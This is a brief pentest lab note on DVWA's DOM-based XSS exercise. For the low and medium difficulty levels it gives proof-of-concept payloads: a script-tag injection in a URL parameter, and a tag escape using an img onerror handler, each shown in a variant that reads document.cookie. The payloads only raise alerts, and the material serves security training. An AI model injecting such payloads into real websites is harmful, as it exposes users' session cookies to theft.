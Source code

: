 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

POC:
```
http://dvwa.local/vulnerabilities/xss_d/?default=<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

Now grab cookie:
```
<script>alert(document.cookie)</script>
```

MEDIUM
Here we need to escape out of the `option` and `select` tags:

POC:
```
/option></select><img src='x' onerror='alert(1)'>
```

Now grab cookie:
```
/option></select><img src='x' onerror='alert(document.cookie)'>
```


